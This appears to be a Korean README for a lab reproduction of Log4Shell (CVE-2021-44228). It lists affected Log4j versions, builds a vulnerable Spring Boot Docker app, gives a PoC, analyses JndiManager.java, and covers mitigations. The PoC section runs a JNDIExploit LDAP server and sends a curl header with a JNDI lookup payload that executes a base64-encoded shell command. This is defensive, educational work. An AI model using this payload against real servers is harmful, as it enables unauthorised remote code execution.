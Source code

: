 # CVE-2021-44228

Log4j2 JNDI 클래스에서 발견된 취약점

스프링 부트 웹 어플리케이션으로 테스트 환경 구성



## 0. 취약한 환경 버전

- Log4j 2.0-beta9 ~ 2.14.1 이하 버전 [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)
  - CVSS Score : 10.0 / 10.0 (CRITICAL)
- Log4j 2.0-beta9 ~ 2.15.0 이하 버전 [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-45046)
  - CVSS Score : 9.0 / 10.0 (CRITICAL)
- Log4j 1.X 버전 [CVE-2021-4104](https://nvd.nist.gov/vuln/detail/CVE-2021-4104)
  - CVSS Score : 7.5 / 10.0 (HIGH)
- Log4j 1.X 버전 [CVE-2022-23302](https://nvd.nist.gov/vuln/detail/CVE-2022-23302)
  - JMSSink를 사용하지 않는 경우 취약점 영향 없음
  - CVSS Score : 9.8 / 10.0 (HIGH)
- Log4j 1.X 버전 [CVE-2022-23305](https://nvd.nist.gov/vuln/detail/CVE-2022-23305)
  - JDBCAppender를 사용하지 않는 경우 취약점 영향 없음
  - CVSS Score : 9.8 / 10.0 (HIGH)
- Log4j 1.X 버전 [CVE-2022-23307](https://nvd.nist.gov/vuln/detail/CVE-2022-23307)
  - Chainsaw를 사용하지 않는 경우 취약점 영향 없음
  - CVSS Score : 9.8 / 10.0 (HIGH)

- 전자정부프레임워크(eGovFramework) 버전 별 Log4j 버전
  - 프레임워크 버전 // Log4j 버전
    - 1.0 : Log4j 1.3 (JMSAppender를 사용하는 경우)
    - 2.0 : Log4j 1.3 (JMSAppender를 사용하는 경우)
    - 2.5 : Log4j 1.3 (JMSAppender를 사용하는 경우)
    - 2.6 : Log4j 1.3 (JMSAppender를 사용하는 경우)
    - 2.7 : Log4j 1.3 (JMSAppender를 사용하는 경우)
    - 3.0 : Log4j 2.0
    - 3.1 : Log4j 2.0
    - 3.5 : Log4j 2.1
    - 3.6 : Log4j 2.5
    - 3.7 : Log4j 2.8.2
    - 3.8 : Log4j 2.10.0
    - 3.9 : Log4j 2.11.2
    - 3.10 : Log4j 2.12.1
    - 4.0(베타) : : Log4j 2.14.0



기타 영향 받는 소프트웨어 

- Apache Struts, Apache Solr, Apache Druid, Apache Flink, Apache Tomcat, ElasticSearch, Flume, Apache Dubbo, Logstash, Kafka, Spring-Boot-starter-log4j2 등

  

## 1. 환경 구성

| 소프트웨어  | 버전                                             | 비고                                                |
| ----------- | ------------------------------------------------ | --------------------------------------------------- |
| Log4j       | 2.14.1 (```spring-boot-starter-log4j2```  2.6.1) |                                                     |
| JDK         | 1.8.0_181                                        | https://i5i5.tistory.com/266                        |
| ubuntu      | 20.04.02 LTS                                     |                                                     |
| JNDIExploit | 1.2                                              | https://github.com/black9/Log4shell_JNDIExploit.git |
| Git         | -                                                |                                                     |



1. git clone

   ```shell
   git clone https://github.com/christophetd/log4shell-vulnerable-app.git
   ```

   

2. docker를 통해 서버 구축

   ```shell
   docker build . -t vulnerable-app
   ```

   이미지 1: 서버 빌드

   

3.  docker 서버 실행

   ```shell
   docker run -p 8080:8080 --name vulnerable-app --rm vulnerable-app
   ```

   이미지 2: 서버 동작

   이미지 3: 웹



## 2. PoC

1. JNDIExploit 1.2 설치

   JNDI 익스플로잇을 사용하여 악성 클래스 파일이 존재하는 LDAP 서버를 실행

   ```shell
   git clone https://github.com/black9/Log4shell_JNDIExploit.git
   unzip JNDIExploit.v1.2.zip
   java -jar JNDIExploit-1.2-SNAPSHOT.jar -i myip -p 8888
   ```

   이미지 4: exploit 실행

   

2.  LDAP 서버에서 원격 코드 실행 (RCE)

   공격코드 부분 : (dG91Y2ggL3RtcC9wd25lZAo= -> touch /tmp/pwned)

   ```shell
   curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://myip:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo=}'
   ```

   이미지 5: 

   

3. 도커 컨테이너 내부에 pwned 파일이 생성되었는지 확인

   ```shell
   docker exec vulnerable-app ls /tmp
   ```

   이미지 6: 

   

## 3. 원인 분석

취악점을 발생시키게 한 코드이며 JndiManager.java 파일에 JNDI lookup 기능에서 발견

```java
* @throws  NamingException if a naming exception is encountered
   */
  @SuppressWarnings("unchecked")
  public <T> T lookup(final String name) throws NamingException {
      return (T) this.context.lookup(name);
  }

  private static class JndiManagerFactory implements ManagerFactory<JndiManager, Properties> {

      @Override
      public JndiManager createManager(final String name, final Properties data) {
        ry {
              return new JndiManager(name, new InitialContext(data));
          } catch (final NamingException e) {
              LOGGER.error("Error creating JNDI InitialContext.", e);
              return null;
          }
      }
  }
```

```java
public synchronized <T> T lookup(final String name) throws NamingException {
       try {
           URI uri = new URI(name);
           if (uri.getScheme() != null) {
               if (!allowedProtocols.contains(uri.getScheme().toLowerCase(Locale.ROOT))) {
                   LOGGER.warn("Log4j JNDI does not allow protocol {}", uri.getScheme());
                   return null;
               }
               if (LDAP.equalsIgnoreCase(uri.getScheme()) || LDAPS.equalsIgnoreCase(uri.getScheme())) {
                   if (!allowedHosts.contains(uri.getHost())) {
                       LOGGER.warn("Attempt to access ldap server not in allowed list");
                       return null;
                   }
                   Attributes attributes = this.context.getAttributes(name);
                   if (attributes != null) {
                       Map<String, Attribute> attributeMap = new HashMap<>();
                       NamingEnumeration<? extends Attribute> enumeration = attributes.getAll();
                       while (enumeration.hasMore()) {
                           Attribute attribute = enumeration.next();
                           attributeMap.put(attribute.getID(), attribute);
                       }
                       Attribute classNameAttr = attributeMap.get(CLASS_NAME);
                       if (attributeMap.get(SERIALIZED_DATA) != null) {
                           if (classNameAttr != null) {
                               String className = classNameAttr.get().toString();
                               if (!allowedClasses.contains(className)) {
                                   LOGGER.warn("Deserialization of {} is not allowed", className);
                                   return null;
                               }
                           } else {
                               LOGGER.warn("No class name provided for {}", name);
                               return null;
                           }
                       } else if (attributeMap.get(REFERENCE_ADDRESS) != null
                               || attributeMap.get(OBJECT_FACTORY) != null) {
                           LOGGER.warn("Referenceable class is not allowed for {}", name);
                           return null;
                       }
                   }
               }
           }
       } catch (URISyntaxException ex) {
           // This is OK.
       }
```





## 4. 대응 방안

1. Apache Log4j 2.17.0 업그레이드
2. Dlog4j2.formatMsgNoLookups=True ( JVM 명령 적용 )



공식 커밋: https://github.com/apache/logging-log4j2/commit/d82b47c6fae9c15fcb183170394d5f1a01ac02d3

이미지 7:





## 참조

1. https://github.com/christophetd/log4shell-vulnerable-app
2. https://github.com/black9/Log4shell_JNDIExploit
3. https://github.com/apache/logging-log4j2/commit/d82b47c6fae9c15fcb183170394d5f1a01ac02d3#diff-271353c1076e53f6893261e4420de27d34588bfd782806b5c66a3465c43b7f51
4. https://blo9.xyz/2021/12/11/Security/Anlaysis/cve/CVE-2021-44228/#%EC%98%81%ED%96%A5%EC%9D%84-%EB%B0%9B%EB%8A%94-%EB%B2%84%EC%A0%84
5. https://www.egovframe.go.kr/home/ntt/nttRead.do?menuNo=74&bbsId=6&nttId=1838


